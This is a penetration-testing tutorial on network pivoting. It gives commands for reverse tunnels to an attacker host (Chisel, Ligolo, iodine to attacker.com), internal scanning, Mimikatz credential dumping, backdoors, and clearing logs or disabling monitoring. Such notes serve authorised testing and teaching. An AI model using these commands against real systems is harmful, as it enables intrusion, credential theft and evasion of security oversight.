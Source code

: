 # Pivoting in Penetration Testing

## Introduction
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources. 


## Types of Pivoting
- **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
- **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
- **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
- **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
- **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
- **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
- **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
- **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
- **ICMP Tunneling** - Encapsulating data within ICMP packets.
- **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

--- 
# Pre Pivot 
- ## Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.
- ## Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```
  Identify internal IP ranges that may indicate private networks.

- ## Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).
--- 
# Pivoting
  - ## SSH Tunneling (Dynamic and Local Port Forwarding)
      - Improper pivot as some of the reuest will not work.
      - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
      - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
  - ## SSHuttle Pivoting
      - Improper pivot as some of the reuest will not work.
      - `sshuttle -r privilege@192.168.80.10 192.168.98.0/24`
      - Explained `sshuttle -r user@target internal_ip/24`.
  - ## Ligolo (Auto Route Creation)
      - Setup network configuration
        ```bash
            ip tuntap add user root mode tun ligolo
            ip link set ligolo up
        ```
      - On attacker's machine: `./ligolo -reverse -listen :9090`
      - On compromised machine: `./ligolo -connect attacker-ip:9090`
      - Type on proxy
        ```bash
        session
        start
        ifconfig
        ```
      - Configure Internal IP with proper IP (Replace given IP with targets internal ip)
         ```bash
         ip route add 192.168.148.0/24 dev ligolo
         ip route list
         ```
  - ## Chisel (Fast TCP/UDP Tunneling)
      - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
      - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
        
  - ## Metasploit Pivoting
      - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
      - Use socks4a module to enable ProxyChains:
        ```bash
        use auxiliary/server/socks4a
        set SRVPORT 1080
        exploit
        ```
  - ## Plink (PuTTY Link) Pivoting
      - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
  - ## RDP Pivoting
      - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
  - ## ICMP Tunneling
      - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
  - ## DNS Tunneling
      - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`

---
# Post Pivoting
- ## Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

- ## Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

- ## Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.
